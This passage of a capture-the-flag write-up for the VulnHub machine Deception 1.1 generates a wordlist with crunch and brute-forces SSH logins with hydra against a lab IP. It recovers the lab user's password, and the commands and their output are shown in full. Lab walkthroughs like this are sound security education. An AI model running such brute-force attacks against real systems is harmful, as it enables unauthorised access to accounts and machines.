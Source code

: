 Source code ⬇️

![Untitled](Deception-1/Untitled%208.png)

I need to find this password.txt file that alerted me on this page , so while enumerating I got the password.txt file in this location ⤵️ 

![Untitled](Deception-1/Untitled%209.png)

Now lets create a password.txt file with password ya5h[a-z,a-z] >

```bash
┌──(kali㉿kali)-[~/Downloads/Vulnhub/Deception1.1]
└─$ crunch 6 6 -t ya5h@@ -o password.txt              
Crunch will now generate the following amount of data: 4732 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 676 

crunch: 100% completed generating output
```
{: .nolineno}
{: .nolineno}
{: file='password.txt'}

Now lets brute force the password for user yash through hydra Tool →

```bash
┌──(kali㉿kali)-[~/Downloads/Vulnhub/Deception1.1]
└─$ hydra -l yash -P password.txt ssh://10.0.2.85 -t 64
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-03 11:15:23
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 676 login tries (l:1/p:676), ~11 tries per task
[DATA] attacking ssh://10.0.2.85:22/
[22][ssh] host: 10.0.2.85   login: yash   password: ya5hay
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 22 final worker threads did not complete until end.
[ERROR] 22 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-12-03 11:15:29
```
{: .nolineno}
{: .nolineno}

I have the credentials for yash user lets login →

```
{: .nolineno}
{: .nolineno}
yash : ya5hay
```
{: .nolineno}
{: .nolineno}
{: file='Credentials.txt'}
